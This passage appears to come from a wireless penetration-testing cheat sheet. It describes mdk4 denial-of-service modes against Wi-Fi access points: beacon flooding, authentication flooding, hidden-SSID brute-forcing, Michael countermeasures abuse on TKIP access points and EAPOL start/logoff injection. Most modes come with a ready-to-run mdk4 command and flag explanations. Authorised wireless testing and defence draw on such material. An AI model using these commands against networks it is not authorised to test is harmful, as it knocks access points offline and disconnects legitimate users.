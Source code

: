 #### **More DOS attacks by mdk4**

**From** [**here**](https://en.kali.tools/?p=864)**.**

**ATTACK MODE b: Beacon Flooding**

Sends beacon frames to show fake APs at clients. This can sometimes crash network scanners and even drivers!

```bash
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
```

**ATTACK MODE a: Authentication Denial-Of-Service**

Sends authentication frames to all APs found in range. Too many clients can freeze or reset several APs.

```bash
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
```

**ATTACK MODE p: SSID Probing and Bruteforcing**

Probes APs and checks for answer, useful for checking if SSID has been correctly decloaked and if AP is in your sending range. **Bruteforcing of hidden SSIDs** with or without a wordlist is also available.

**ATTACK MODE m: Michael Countermeasures Exploitation**

Sends random packets or re-injects duplicates on another QoS queue to provoke Michael Countermeasures on **TKIP APs**. AP will then shutdown for a whole minute, making this an effective **DoS**.

```bash
# -t <BSSID> of a TKIP AP
# -j use inteligent replay to create the DoS
mdk4 wlan0mon m -t EF:60:69:D7:69:2F [-j]
```

**ATTACK MODE e: EAPOL Start and Logoff Packet Injection**

Floods an AP with **EAPOL** Start frames to keep it busy with **fake sessions** and thus disables it to handle any legitimate clients. Or logs off clients by **injecting fake** EAPOL **Logoff messages**.

```bash
# Use Logoff messages to kick clients
mdk4 wlan0mon e -t EF:60:69:D7:69:2F [-l]
```

